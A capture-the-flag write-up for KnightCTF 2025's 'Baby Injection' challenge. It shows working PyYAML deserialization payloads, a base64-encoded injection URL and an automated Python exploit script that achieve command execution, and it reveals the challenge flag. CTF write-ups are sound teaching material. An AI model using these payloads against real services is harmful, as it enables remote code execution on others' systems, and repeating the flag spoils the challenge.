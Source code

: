 
# Baby Injection

<!--more-->
### Challenge Description

![Challenge Presentation](/images/KnightCTF-2025/Baby-Injection/challenge_presentation.png "Challenge Presentation")

### Initial Analysis

The site appears as follows:

![Site Presentation](/images/KnightCTF-2025/Baby-Injection/site_presentation.png "Site Presentation")

The first thing that immediately stands out is the site's URL:

```
http://172.105.121.246:5990/eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=
```


In fact, that looks like a base64 encoding. Let's try to decode it:

```bash
 echo "eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=" | base64 -d
```

Decoding it, I got the following:

```yml
yaml: Its yaml bro, hack me if you can!!!
```

So, the decoded base64 seems to be reflected on the page, as we can see from the previous screenshot. It seems that since it mentions YAML, this could be a case of YAML insecure deserialization. In fact, looking at the request header, we can tell that everything is being executed with Python. Since Python has a library called PyYAML, we can exploit the deserialization process to achieve Remote Code Execution (RCE). 

### Exploit
I personally used this payload:

```yml
yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]
```

But many other payloads could have been used, such as:

```yml
yaml: !!python/object/apply:subprocess.getoutput ["ls -al"]
```
Other payloads can be found on [PayloadsAllTheThings](). So, I simply encoded it in base64:

```bash
echo "yaml: python/object/apply:subprocess.getoutput ['ls -al']" | base64
```

And that's how I formed the URL for injecting the "ls -al" command:

```
http://172.105.121.246:5990/eWFtbDogcHl0aG9uL29iamVjdC9hcHBseTpzdWJwcm9jZXNzLmdldG91dHB1dCBbJ2xzIC1hbCdd
```

By opening the URL, the command was executed on the server, listing the directories, and in doing so, I found the flag:

![Manual Flag](/images/KnightCTF-2025/Baby-Injection/manual_flag.png "Manual Flag")

### Automated Exploit

I also created an automated Python exploit for extracting the flag:

```python
import requests
import base64
import re

url = "http://172.105.121.246:5990/"
payload = '''yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]'''
print("\nFLAG: " + re.search(r'KCTF{[a-f0-9]+}', requests.get(url + base64.b64encode(payload.encode('utf-8')).decode('utf-8')).text).group(0))
```

### Flag
{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
KCTF{d38787fb0741bd0efdad8ed01f037740}
{{< /typeit >}}
{{< /admonition >}}

